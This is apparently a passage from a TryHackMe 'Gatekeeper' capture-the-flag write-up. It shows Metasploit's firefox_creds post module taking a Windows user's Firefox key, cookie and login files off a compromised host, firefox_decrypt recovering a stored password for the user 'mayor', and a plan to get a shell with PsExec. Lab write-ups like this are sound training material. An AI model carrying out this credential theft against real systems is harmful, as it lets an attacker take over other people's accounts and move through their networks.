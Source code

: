 We got the first flag. After looking around for the second flag, we found that there is another user named `mayor` that can be quite interesting to look at. However, the user's folder is not accessible. As we look around, we retrieved some credentials from Firefox.

```msfconsole
msf6 exploit(multi/handler) > use multi/gather/firefox_creds
msf6 post(multi/gather/firefox_creds) > set session 3
session => 3
msf6 post(multi/gather/firefox_creds) > run
[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
[+] Downloaded cert9.db: /home/drunkenhacker/.msf4/loot/20250225172410_default_10.10.122.209_ff.ljfn812a.cert_800587.bin
[+] Downloaded cookies.sqlite: /home/drunkenhacker/.msf4/loot/20250225172415_default_10.10.122.209_ff.ljfn812a.cook_847911.bin
[+] Downloaded key4.db: /home/drunkenhacker/.msf4/loot/20250225172419_default_10.10.122.209_ff.ljfn812a.key4_930466.bin
[+] Downloaded logins.json: /home/drunkenhacker/.msf4/loot/20250225172422_default_10.10.122.209_ff.ljfn812a.logi_687142.bin

[*] Profile: C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\rajfzh3y.default

[*] Post module execution completed
```

The files are downloaded to the `loot` directory in our local machine. We change the name back to the original name and use `firefox_decrypt` to decrypt the credentials.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ gh repo clone unode/firefox_decrypt
Cloning into 'firefox_decrypt'...
remote: Enumerating objects: 1382, done.
remote: Counting objects: 100% (292/292), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 1382 (delta 273), reused 254 (delta 254), pack-reused 1090 (from 2)
Receiving objects: 100% (1382/1382), 482.80 KiB | 1.25 MiB/s, done.
Resolving deltas: 100% (870/870), done.

┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe/gatekeeper/firefox_creds]
└─$ python3 firefox_decrypt/firefox_decrypt.py ./
2025-02-25 17:43:47,447 - WARNING - profile.ini not found in ./
2025-02-25 17:43:47,447 - WARNING - Continuing and assuming './' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: [REDACTED]
```

We can try to use these credentials to create a shell with PsExec.
